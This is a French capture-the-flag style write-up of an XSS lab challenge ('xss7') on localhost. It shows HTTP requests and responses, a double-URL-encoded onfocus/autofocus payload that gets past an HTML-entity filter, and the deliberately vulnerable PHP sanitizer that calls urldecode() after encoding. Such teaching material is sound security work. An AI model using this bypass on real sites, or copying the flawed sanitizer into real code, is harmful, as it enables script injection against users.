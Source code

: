 # xss7

## Exploitation

Dans cet avant dernier challenge, l'application encode maintenant les chevrons `<` et `>` ainsi que le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (126).png>)

Je renseigne ces caractères afin de mieux déterminer le traitement effectué :

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%3C%3E%22&submit=Envoyer
```

Les caractères sont ici correctement encodés par une transformation en entités HTML :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2130
Connection: close
Content-Type: text/html; charset=UTF-8



<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever&lt;&gt;&quot;" placeholder="keyword" required>
</div> 
```

![](<../../../.gitbook/assets/image (147).png>)

Je tente d'utiliser le caractère `'` à la place de `"` mais cela ne fonctionne pas. Il me faut donc trouver une payload représentée sous un autre format que les caractères filtrés. Au bout de quelques essais je tente l'encodage URL `whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522` :&#x20;

```http
POST /xss7/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss7/

search=whatever%2522+onfocus%3D%2522alert%281%29%2522+autofocus+x%3D%2522&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2150
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :&#x20;

![](<../../../.gitbook/assets/image (141).png>)

## Analyse du code source

La fonction `xss_check()` effectue bien les modifications indiquées par l'auteur, à savoir la transformation en entités HTML des caractères `<`, `>` et `"`. L'injection avec le caractère `'` n'est en effet pas possible ici, car la construction du code s'effectue bien avec le double guillemet. L'injection en utilisant l'encodage URL est possible ici car l'application effectue un `urldecode()`, je ne pense pas que l'injection soit possible sans cela :thinking: :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = str_replace("\"", "&quot;", $input);
    $input = urldecode($input);
    
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
